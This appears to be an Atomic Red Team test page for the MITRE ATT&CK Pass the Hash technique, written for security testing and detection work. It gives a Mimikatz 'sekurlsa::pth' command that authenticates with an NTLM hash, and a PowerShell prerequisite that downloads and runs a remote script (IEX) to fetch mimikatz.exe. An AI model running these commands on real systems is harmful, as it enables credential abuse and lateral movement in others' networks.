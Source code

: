 # T1550.002 - Use Alternate Authentication Material: Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/002)
<blockquote>Adversaries may “pass the hash” using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a [Credential Access](https://attack.mitre.org/tactics/TA0006) technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003) attacks.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


**auto_generated_guid:** ec23cef9-27d9-46e4-a68d-6f75f7b86908





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | %userdnsdomain%|
| mimikatz_path | mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>


<br/>
